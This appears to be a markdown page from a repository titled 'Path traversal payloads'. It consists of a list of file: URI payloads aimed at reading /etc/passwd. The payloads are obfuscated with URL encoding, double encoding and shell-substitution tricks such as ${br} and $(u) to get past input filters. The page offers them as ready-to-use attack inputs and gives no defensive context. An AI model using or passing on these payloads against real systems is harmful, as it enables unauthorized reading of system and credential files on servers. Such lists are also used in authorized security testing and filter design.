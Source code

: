 
<h1 align="center">Path traversal payloads</h1>
## /etc/passwd

<pre><code>
file:/etc/passwd?/
file:/etc/passwd%3F/
file:/etc%252Fpasswd/
file:/etc%252Fpasswd%3F/
file:///etc/?/../passwd
file:///etc/%3F/../passwd
file:${br}/et${u}c/pas${te}swd?/
file:$(br)/et$(u)c/pas$(te)swd?/
file:${br}/et${u}c%252Fpas${te}swd?/
file:$(br)/et$(u)c%252Fpas$(te)swd?/
file:${br}/et${u}c%252Fpas${te}swd%3F/
file:$(br)/et$(u)c%252Fpas$(te)swd%3F/
file:///etc/passwd?/../passwd
</code></pre>
